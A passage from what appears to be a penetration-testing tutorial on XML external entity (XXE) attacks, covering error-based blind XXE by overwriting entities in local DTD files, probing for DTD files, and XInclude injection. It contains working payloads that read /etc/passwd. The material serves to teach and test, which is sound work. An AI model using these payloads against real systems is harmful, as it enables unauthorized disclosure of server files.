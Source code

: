 3.  Repurposing existing DTD files in a server

    When out-of-band interactions are disabled by the web server\'s network settings or any other method, it won\'t be possible to include external DTD files. Hence, Blind XXE injection can only be exploited using a known DTD files in a system and using that file to leak data in the form of error messages. However, this DTD file should first be *edited* with a malicious XXE payload that accesses system files. Thankfully, XML allows us to **overwrite** some entries in an external DTD. For instance, if in a server there is a DTD file named /etc/DTDs/localdtd.dtd that also contains an entity named **localentity**, we can use the following payload to **overwrite** that entity.

    ``` xml
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///etc/DTDs/localdtd.dtd">
    <!ENTITY %  localentity'
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

    Locating such files should be fairly straightforward since the web application returns errors from the xml parser, we can simply check whether a file exists by sending a benign payload and checking whether the server returns an error(the file doesn\'t exist) or not(the file exists)

    ``` xml
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/test.dtd">
    %local_dtd;
    ]>
    ```

## Exploiting XInclude

Sometimes, even if you don\'t send XML data to a website, the application could still use the input you provided it to create an XML document. However, if the proper sanitisations are not made on the input, the final XML could be edited which can again be used to leak file information or to cause out-of-band interactions. Here is a sample payloads that uses xinclude:

``` xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## File Upload Attacks

In theory, any file upload that uses xml and is parsed on the back-end side can be exploited. There are different methods for different filetypes and each should be tested thoroughly.

### Image Uploads with SVG
